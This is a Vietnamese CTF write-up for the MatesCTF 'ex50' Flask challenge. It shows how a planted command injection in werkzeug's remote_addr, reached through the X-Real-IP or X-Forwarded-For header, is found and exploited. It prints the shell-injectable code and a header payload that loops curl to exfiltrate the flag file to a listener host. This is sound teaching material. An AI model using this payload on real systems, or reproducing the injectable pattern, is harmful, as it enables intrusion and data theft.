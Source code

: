 ```yaml
---
title: "Matesctf final 2 - IP Spoofing to RCE in flask"
date: 2018-09-08T09:46:55+07:00
draft: false
comments: true
author: "Kev"
tags: ["ctf", "flask"]
---
```

{{< figure src="/images/uploads/ex50.PNG" >}}

## EXPLOIT - [source](/resources/matesctf/ex50.tar)
<hr>
Sau khoảng thời gian dài nghiên cứu và nhờ sự gợi ý hết sức nhiệt tình từ tác giả tôi đã có thể exploit được lỗi được tác giả cho là khó phát hiện nhất. Chuẩn luôn, là rất khó phát hiện vì code lỗi ở tận trong lib của flask.

Đầu tiên, khi truy cập vào trang đăng nhập tác giả có gợi ý cho mọi người biết là app có handle real ip của client. (Hình trên)
Thế nên mình tìm kiếm trong source để tìm xem có vấn đề bảo mật gì có thể khai thác được không.

{{<highlight python>}}
def index():
    try:
        data = Novel.find_one({"page":1})
        lines = data['content'].split("\n")
    except Exception, e:
        return render_template('index.html', page=0, message=[], _id="")
        print e
    if session.has_key('usn'):
        return render_template('index.html',_id=data['_id'],message=lines,page=1)
    return render_template('login.html',ip=request.remote_addr)

{{</highlight>}}

Chính là chỗ này, tác giả đã lấy `remote_addr` để hiển thị ra trang chủ. Thêm nữa, `remote_addr` còn được insert vào database lúc tạo user, ngoài ra thì không được dùng để làm gì nữa.
Có 2 vector tấn công mà mình có thể nghĩ đến đó là: nosql injection và xss

Tuy nghiên, giả sử bị lỗi nosql injection thì tội gì phải inject vào trường ip mà không inject vào trường username, hay name. Mặc khác, query ở đây là câu lệnh insert nên có vẻ khó để khai thác. XSS lại càng không, vì mình không tìm thấy flag nào trong cookie của bot, nếu có session của bot thì cũng không lấy được flag. Thế là 2 vector này xem như bỏ.

Mình có test thêm một số cách nữa, là thay đổi giá trị của trường `X-Forwarded-For` để fake ip. và kết quả là:

{{<highlight bash>}}
# Truy cập từ localhost. Kết quả nhận được giá trị 127.0.0.1
✔ curl localhost:8080  
<input type="submit" class="btn waves-effect waves-light" value="127.0.0.1"/>

# Thay đổi request header bằng giá trị ngẫu nghiên. Kết quả bị lỗi
✔ curl localhost:8080 -H "X-Forwarded-For: 1.2.3.4"
{
  "error": {
    "code": 500, 
    "message": "fake ip"
  }
}

# Thay đổi giá trị request header là ip thật. Kết quả trả về đúng với những gì gửi lên
✔ curl localhost:8080 -H "X-Forwarded-For: 103.92.28.200" 
<input type="submit" class="btn waves-effect waves-light" value="103.92.28.200"/>

# Truy cập từ internet. Kết quả nhận được là ip thật của client
✔ curl 103.92.28.200
<input type="submit" class="btn waves-effect waves-light" value="58.187.170.100"/>

# Thay đổi request header bằng giá trị 127.0.0.1. Kết quả không thay đổi
✔ curl 103.92.28.200 -H "X-Forwared-For: 127.0.0.1"
<input type="submit" class="btn waves-effect waves-light" value="58.187.170.100"/>
{{</highlight>}}

Tại sao lại có sự khác biệt giữa internal và external? {{< emoji oh >}} Ở trung gian giữa 2 môi trường thì chỉ có reverse proxy tác động vào thôi. Kiểm tra cấu hình nginx tại `/etc/nginx/sites-enabled/default`

```
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name _;

	location / {
		proxy_set_header X-Forwarded-For $remote_addr;
		proxy_pass http://127.0.0.1:8080/;
	}
}
```

Thì ra nginx đã set lại giá trị của X-Forwarded-For. Mình tìm kiếm thêm một số thông tin về cách khai thác theo hướng này. Có vẻ cách cấu hình của nginx và flask đều bị sai và có thể khai thác được lỗi này. Nhưng mình chưa hiểu vì sao mà không thực hiện ip spoofing được khi qua nginx. Nhưng đều đó không quan trọng, vì nếu attack được vector này thì làm sao get flag?

- [Flask apps on Heroku susceptible to IP spoofing](http://esd.io/blog/flask-apps-heroku-real-ip-spoofing.html)
- [Nginx is more explicit](https://stackoverflow.com/questions/12770950/flask-request-remote-addr-is-wrong-on-webfaction-and-not-showing-real-user-ip)

Mình phải xin hint của tác giả, được gợi ý là tìm vị trí implement `request.remote_addr` trong lib. Thực hiện trace từ từ như bên dưới:

{{<highlight bash>}}
# Để tìm được vị trí của thư viện flask ta có thể dùng lệnh đơn giản sau
✔ python -c "import flask; print flask.__file__"
/usr/local/lib/python2.7/dist-packages/flask/__init__.pyc

# Đối tượng request được gọi từ file globals.py
✔ cat /usr/local/lib/python2.7/dist-packages/flask/__init__.py | grep request
from .globals import current_app, g, request

# Đối tượng request được khởi tạo từ method LocalProxy
✔ cat /usr/local/lib/python2.7/dist-packages/flask/globals.py | grep request 
request = LocalProxy(partial(_lookup_req_object, 'request'))

# Tìm vị trí của method LocalProxy, kết quả là tại werkzeug.local
✔ cat /usr/local/lib/python2.7/dist-packages/flask/globals.py | grep LocalProxy
from werkzeug.local import LocalStack, LocalProxy

# Tìm vị trí của thư viện werkzeug
✔ python -c "import werkzeug; print werkzeug.__file__"
/usr/local/lib/python2.7/dist-packages/werkzeug/__init__.pyc 

# Đối tượng ta đang tìm kiếm được gán vào _LocalProxy__local và __wrapped__
✔ cat /usr/local/lib/python2.7/dist-packages/werkzeug/local.py
class LocalProxy(object):
	def __init__(self, local, name=None):
	    object.__setattr__(self, '_LocalProxy__local', local)
	    object.__setattr__(self, '__name__', name)
	    if callable(local) and not hasattr(local, '__release_local__'):
	        object.__setattr__(self, '__wrapped__', local)
{{</highlight>}}

Cũng hơi lòng vòng. Thực ra request được kết thừa từ class `BaseRequest` trong `wrappers.py`. Và remote_addr cũng được implement tại đây
{{<highlight python3>}}
@property
def remote_addr(self):
    if self.headers.has_key('X-Real-IP'):
        ip = self.headers.get('X-Real-IP')
    elif self.headers.has_key('X-Forwarded-For'):
        ip = self.headers.get('X-Forwarded-For')
    else:
        ip = self.environ.get('REMOTE_ADDR')
    cmd = 'netstat -tn | grep ' + ip 
    import subprocess
    ps = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE,stderr=subprocess.STDOUT)
    output = ps.communicate()[0]
    if len(output) > 0: 
        return ip
    raise Exception("fake ip") 
{{</highlight>}}

Đây rồi, command injection. `ip` có thể được custom từ trường `X-Real-IP` hoặc `X-Forwarded-For` và gọi `Popen`. Vì kết quả chỉ được hiển thị ra `ip` không phải `output` - dạng blind - nên cần phải bắt dữ liệu từ server khác. Mình viết script dùng curl gửi dữ liệu kèm theo flag, mỗi 1 phút sẽ tự động gửi flag qua 1 lần.

{{<highlight bash>}}
# Script đọc flag mỗi 1 phút
✔ curl 103.92.28.200 -H "X-Real-IP: 127.0.0.1; while true; do curl 103.92.28.200:8000/?flag=`cat /home/ctf/ex50/flag`; sleep 60; done;"

# Bắt gói tin HTTP 
✔ php -S 103.92.28.200:8000
[Mon Sep 10 11:46:10 2018] ::1:44454 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:47:10 2018] ::1:44456 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:48:10 2018] ::1:44458 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:49:10 2018] ::1:44460 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
[Mon Sep 10 11:50:10 2018] ::1:44462 [404]: /?flag=matesctf23w4324234234234234 - No such file or directory
{{</highlight>}}


## SOLUTIONS
<hr>
To be continue ...
